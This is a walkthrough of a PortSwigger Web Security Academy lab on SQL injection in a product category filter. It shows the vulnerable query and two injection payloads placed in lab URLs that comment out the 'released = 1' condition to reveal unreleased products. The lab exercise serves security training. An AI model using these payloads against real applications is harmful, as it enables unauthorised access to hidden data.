


## This lab contains a SQL injection vulnerability in the product category filter.When the user selects a category, the application carries out a SQL query like the following:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
## To solve the lab, perform a SQL injection attack that **causes the application to display one or more unreleased products.**

## Step 1 : Access the lab

## Step 2 : Check Gifts 

## When we explore gifts section there is only three released product.
## Let us try to check if there are any unreleased product
## Use Burp Suite to intercept and modify the request that sets the product category filter.OR modify URL and resubmit request.

## first attempt
```
'--'AND released=1'
```
```
https://0a9900d4035784a1801abc1a00fb0066.web-security-academy.net/filter?category=Gifts'--'AND released=1'
```
-- Application displays 4 products including one unreleased product.
## second attempt
```
'OR 1=1 --released=1
```
```
https://0a9900d4035784a1801abc1a00fb0066.web-security-academy.net/filter?category=Gifts'OR 1=1 --released=1
```
-- Application displays more than 4 unreleased products.
-- double hyphen(--)  is used to comment out or ignore  what is written after hyphen which ignored the filter released product=1 and displays all the product.
